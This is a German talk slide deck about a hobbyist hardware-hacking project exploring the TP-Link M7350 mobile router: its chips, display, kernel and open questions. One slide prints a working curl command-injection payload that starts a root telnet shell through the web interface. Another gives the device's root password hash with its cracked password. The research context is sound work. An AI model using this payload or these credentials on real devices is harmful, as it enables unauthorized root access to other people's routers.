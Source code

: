 ```yaml
---
author: m0veax
title: Exploring the TP-Link M7350
---
```



:::::::::::::: {.columns}
::: {.column width="36%"}
handle: \
bürgerlich: \
rufname: \
:::
::: {.column width="42%"}
m0veax \
Patrick Kilter \
Lutz \
:::
::: {.column width="5%"}
:::
::::::::::::::
 \

- In meinem Berufsleben mache ich Sachen mit Softwareentwicklung und Corporate Requirements
- Springe seit ~2 Jahren im Chaos rum
- Verbringe meine Freizeit mit allem was mich (sprunghaft) interessiert und meinen Kindern


# TP-Link M7350 Projekt

- mein erstes Projekt im Bereich "Hardware Hacking"
- was ich hier zeige ist nicht nur meine Leistung, sondern gesammelte Werke aus dem Projekt

# Beginn

- wir sind irgendwie™ an eine Stückzahl der Mobile-Router gekommen
- Im Chaospott haben sich mehrere Entitäten gefunden, die sich mit dem Gerät befassen möchten
- wir haben einen [Matrix Channel](https://matrix.to/#/!hUtDhlRLVIQJzRgCpE:zehka.net?via=yip.gay&via=matrix.org&via=chaospott.de) und ein [Github Repository](https://github.com/m0veax/tplink_m7350/tree/main) zum sammeln der Informationen eingerichtet
- HACK THE PLANET

# Hardware

:::::::::::::: {.columns}
::: {.column width="47%"}
SoC \
flash \
mobile wireless
:::
::: {.column width="47%"}
Qualcomm MDM9225 \
2Gbit (256MB) Winbond W71NW20GF3FW \
Skyworks SKY77629
:::
::: {.column width="5%"}
:::
::::::::::::::

 \

:::::::::::::: {.columns}
::: {.column width="47%"}
![](img/v3-top.jpg)
:::
::: {.column width="47%"}
![](img/v3-bottom.jpg)
:::
::: {.column width="5%"}
:::
::::::::::::::

 \

# Wir legen los

- wir finden 4pda
- russisches Forum, das u.a. eine RCE im Webinterface gefunden hat
- die dort hochgeladenen Scripte sind nicht mehr verfügbar
- wir haben den dokumentierten Payload in Rust und später bash implementiert und telnet Zugang auf das Gerät erhalten
- wir haben root per telnet

`curl -s 'http://192.168.0.1/cgi-bin/qcmap_web_cgi' -b "tpweb_token=$token" -d '{"token":"'"$token"'","module":"webServer","action":1,"language":"$(busybox telnetd -l /bin/sh)"}' > /dev/null`


# Erste Findings

- komfortable shell per adb possible
- wir dokumentieren random findings im Filesystem und dumpen die Firmware
 - `root:C98ULvDZe7zQ2:0:0:root:/home/root:/bin/sh` -> `oelinux123`
- aus der Firmware extrahieren wir ein Device Tree Binary

# Was können wir eigentlich mit dem Display machen?

- Wir finden die Display Version per dtvis

![](img/dtvis.png)

# Was können wir eigentlich mit dem Display machen?

- Wir können UI Tiles darstellen und ändern

![](img/oled_parser.png)

# Was können wir eigentlich mit dem Display machen?

- Pika Pika

![](img/pika.png)


# Was können wir eigentlich mit dem Display machen?

- der kann farbe, obwohl die originale Firmware nur schwarz/weiß nutzt

![](img/farbe.png)

# TP-Link OSS

- Kernel Sources von der TP-Link Seite
- Ist ein Android Kernel
- Wir hatten Schwierigkeiten die passende Kernelversion zu finden
- Wir haben die ersten Kernel bauen können
- [extra repository](https://github.com/m0veax/tplink_m7350-kernel) erstellt und im Hauptrepository verlinkt

# offene Rätsel

- wie mit den Debugpoints sprechen?

![](img/bootpoint_pbl.png)

# offene Rätsel

- wie mit den Debugpoints sprechen?

![](img/testpoint.jpg)

# offene Rätsel

- Zugriff auf den bootloader 
- fastboot implementiert in [LK](https://github.com/littlekernel/lk) (Little Kernel)

# offene Rätsel

- per Shellzugriff können AT Commands an das Modem gesendet werden
- das wurde noch nicht ausprobiert und kann dokumentiert werden

# offene Rätsel

- was könnt ihr finden?

# Fazit

- Mittlerweile sind Menschen aus anderen Regionen unserem Chat beigetreten und forschen mit

. . .

- Es gibt auf dem Gerät noch viel zu erforschen

. . . 


- Ich finde Folien bauen schrecklich

. . .

- Danke für eure Aufmerksamkeit :)